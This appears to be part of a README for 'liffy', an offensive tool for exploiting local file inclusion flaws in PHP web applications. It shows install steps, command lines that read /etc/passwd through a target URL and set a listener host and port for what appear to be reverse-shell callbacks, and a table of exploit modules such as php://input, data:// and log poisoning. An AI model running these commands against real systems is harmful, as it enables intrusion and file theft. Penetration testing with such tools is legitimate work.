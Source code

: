 ### **Manual Install**

```bash
# Install Python dependencies
pip3 install -r requirements.txt

# Make scripts executable
chmod +x liffy_ultimate.py liffy-fast liffy_techniques.py

# Create configuration directory
mkdir -p ~/.liffy/{logs,sessions,payloads,templates,wordlists,results}
```

---

## 🎮 **Usage**

### **Interactive Mode**

```bash
# Start the interactive framework
liffy

# Or use the full command
python3 liffy_ultimate.py
```

### **Command Line Mode**

```bash
# Quick LFI testing
liffy-fast filter --url "http://target/file.php?page=" --file "/etc/passwd"

# Batch processing
cat urls.txt | liffy-fast data --batch --lhost 192.168.1.100 --lport 4444

# Technique-specific commands
liffy-techniques data --url "http://target/file.php?page=" --lhost 192.168.1.100 --lport 4444
```

---

## 📋 **Module Categories**

### **Exploit Modules**

| Module | Description | Rank | Targets |
|--------|-------------|------|---------|
| `exploit/lfi/data` | LFI via data:// wrapper | Excellent | PHP |
| `exploit/lfi/input` | LFI via php://input wrapper | Excellent | PHP |
| `exploit/lfi/expect` | LFI via expect:// wrapper | Good | PHP with expect |
| `exploit/lfi/environ` | LFI via /proc/self/environ | Good | Linux |
| `exploit/lfi/access_logs` | Apache access log poisoning | Good | Apache |
| `exploit/lfi/ssh_logs` | SSH auth log poisoning | Good | Linux with SSH |
| `exploit/lfi/filter` | LFI via php://filter wrapper | Excellent | PHP |
| `exploit/lfi/zip` | LFI via zip:// wrapper | Good | PHP |
| `exploit/lfi/phar` | LFI via phar:// wrapper | Good | PHP |